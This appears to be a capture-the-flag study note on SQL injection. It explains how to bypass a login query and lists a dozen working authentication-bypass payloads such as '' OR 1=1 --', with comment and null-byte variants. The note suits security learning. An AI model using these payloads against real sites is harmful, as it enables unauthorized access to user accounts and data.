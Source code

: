 SQL injection (SQLi) is a well-known web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. ([Source](https://portswigger.net/web-security/sql-injection))

This note may be expanded in future. Challenges that require SQLi:
* SQL Direct
* SQLiLite
* More SQLi

Let's assume that the application queries the database with the following SQL query:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


To dump all users, we will inject into the `name` field. To do this, our payload must meet the following conditions:



* close the `name` field: `name=' '`
* add a condition that always returns `true`
* truncate the rest of the query 

For the last condition, we need to know what comments or query endings look like in SQL:

```sql
#
--
/* */ (open close)
;%00	(nullbyte)
;     (end of query)
```

For example payload `' OR 1=1;/*`

`'`- закриває лапку для поля `name`, завершуючи порожній рядок

`OR 1=1` - додає умову, яка **завжди істинна**:



* `1=1` always equals `true`
* Because of the operator `OR`, even if `name=' '` is `false`, the entire expression becomes `true`. The operator assumes that if **ONE** condition of the expression is *true*, then the entire expression is *true*. ([Logical disjunction](https://en.wikipedia.org/wiki/Logical_disjunction))



![Logical disjunction schema](../assets/images/Logical_disjunction.png)

* `--` - This is a comment in SQL that disables the rest of the query after it (comments it out). You can try the same thing with the end-of-query symbol `;`.



Let's insert the aforementioned payload:


```sql
SELECT * FROM users WHERE name='' OR 1=1;/*' AND password='PASSWORD'
```


 \
`/*` – Everything that follows this part will be considered a comment and will not be executed. Although `name='' ` is empty, the condition `OR 1=1 ` will force the entire expression to be *true*.

Taking into account the three rules above, you can construct injections yourself, which I did while completing the `SQLiLite` task: \
<pre class="prettyprint">
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1; # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /* # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00 # every int/float/double number passes
33' OR 1=1 -- </pre>




Let's look at some examples `''' OR 1=1;` and  `''''' OR 1=1;` :


```sql
SELECT * FROM users WHERE name='''' OR 1=1;--' AND password='PASSWORD'
```


Make sure that the payload starts with an odd number of brackets so that the last one is **closing** for the field.

